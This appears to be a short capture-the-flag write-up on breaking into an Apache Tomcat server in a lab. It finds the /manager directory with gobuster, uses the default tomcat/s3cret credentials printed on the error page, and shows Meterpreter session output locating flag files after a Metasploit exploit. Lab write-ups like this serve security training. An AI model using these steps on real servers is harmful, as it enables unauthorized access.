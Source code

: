# Apache Tomcat Webserver

## Recon
Running gobuster shows hidden /manager directory that requires a username and password.

On the 401 Unauthorized error page, shows an example with username=tomcat and password=s3cret.

## Initial Exploitation

Use msfconsole to search for apache tomcat manager exploit

```
meterpreter > getuid
tomcat8

meterpreter > sysinfo
Computer    : xubuntu
OS          : Linux 4.4.0-104-generic (amd64)
Meterpreter : java/linux
```

Search for the flag:

```
meterpreter > search -f flag.txt
Found 2 results...
    /home/adminels/Desktop/flag.txt (12 bytes)
    /home/developer/flag.txt (29 bytes)
meterpreter > cat /home/adminels/Desktop/flag.txt
    You did it!
meterpreter > cat /home/developer/flag.txt
    Congratulations, you got it!
	
```

Other users in the home directory:
```
adminels
developer
elsuser
```
